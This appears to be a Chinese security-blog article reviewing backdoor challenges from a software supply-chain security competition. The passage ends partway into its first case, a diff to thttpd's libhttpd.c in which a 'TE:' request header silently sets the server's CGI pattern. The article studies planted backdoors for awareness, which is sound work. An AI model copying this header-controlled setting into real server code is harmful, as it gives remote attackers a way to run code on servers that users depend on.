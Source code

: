 > 原文链接: https://www.anquanke.com//post/id/151054 


# 功守道 | 软件供应链安全大赛•C源代码赛季官方赛题精选


                                阅读量   
                                **100823**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p2.ssl.qhimg.com/t013811dc8d8f9d2a91.jpg)](https://p2.ssl.qhimg.com/t013811dc8d8f9d2a91.jpg)

## 背景

软件供应链安全的问题，无异于潘多拉的盒子。本次软件供应链安全大赛，通过在限定框架范围，打开魔盒释放出一定、低害但超出早先人们认知的程序恶意，将其公之于众，以使得人们对其不再毫无防备，从而能够前摄性的研发对应的解决之道。<br>
大赛通过对外公开招募，形成了具有红蓝对抗关系的两支队伍：出题队（蓝军）与解题队（红军），组织方则负责提供比赛资源和平台，担当题目审核、防作弊混淆、赛事仲裁的第三方角色。纵览整个C源代码赛季，我们从出题队提供的约600道题目中，精选了若干道（组）最具有代表性、新颖性甚至让人不寒而栗的题目进行剖析，来展示出题队攻击思维的冰山一角。<br>
在此需要特别强调：本文中所列举的所有恶意代码，仅用于彰显那些当前有安全人员可能想到的恶意行为；考虑到真正的威胁永远源于未知，这些题目所搭载的恶意行为类型，实质上在曝光的同时就已经失去最大威胁，但由于信息不对等，在真实场景仍然可能会被利用。所以所有读者需要在阅读同时，需要保证绝不会将这里的思路，以及由此延展出的思维用于真实场景。困兽：经典赛题示例。



## 一、thttpd后门陷阱

从基础软件或应用上面入手，稳定可控的后门是最佳选择。而在一个无关应用中突兀地出现网络连接，隐蔽性总归很差；在thttpd当中，以很袖珍的代码实现稳定的后门，是这里首先要呈现的一个题目。<br>
在thttpd项目，恶意代码嵌入到libhttpd.c文件中，上下游恶意代码相关上下文：

```
/thttpd/libhttpd.c
—- malware/libhttpd.c
** httpd_parse_request( httpd_conn hc )
** 2102,2107 **
—- 2102,2113 ——
cp += strspn( cp, “ t” );
hc-&gt;useragent = cp;
`}`

else if ( strncasecmp( buf, “TE:”, 3 ) == 0)
`{`
cp = &amp;buf[3];
cp += strspn( cp, “ t”);
hc-&gt;hs-&gt;cgi_pattern = cp;
`}`
else if ( strncasecmp( buf, “Host:”, 5 ) == 0 )
`{`
cp = &amp;buf[5];
* cgi_child( httpd_conn hc )
** 3560,3565 **
—- 3566,3576 ——
```
